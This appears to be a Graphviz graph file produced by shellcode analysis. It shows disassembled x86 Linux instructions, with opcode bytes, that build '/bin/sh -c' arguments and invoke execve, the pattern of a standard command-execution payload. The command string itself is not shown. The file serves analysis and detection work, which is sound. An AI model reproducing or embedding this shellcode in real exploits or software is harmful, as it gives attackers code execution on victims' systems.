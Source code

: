 digraph G {
	//rankdir=LR
	node [fontname=Courier, labeljust=r];
	 "0x208ac70" [shape=box, label = "0x00417000 6A0B                            push byte 0xb\l0x00417002 58                              pop eax\l0x00417003 99                              cwd \l0x00417004 52                              push edx\l0x00417005 66682D63                        push word 0x632d\l0x00417009 89E7                            mov edi,esp\l0x0041700b 682F736800                      push dword 0x68732f\l0x00417010 682F62696E                      push dword 0x6e69622f\l0x00417015 89E3                            mov ebx,esp\l0x00417017 52                              push edx\l0x00417018 E80A000000                      call 0xf\l0x00417027 57                              push edi\l0x00417028 53                              push ebx\l0x00417029 89E1                            mov ecx,esp\l"]
	 "0x2090f90" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041702b execve\l"]
	 "0x208ac70" -> "0x2090f90" [style = bold ]
}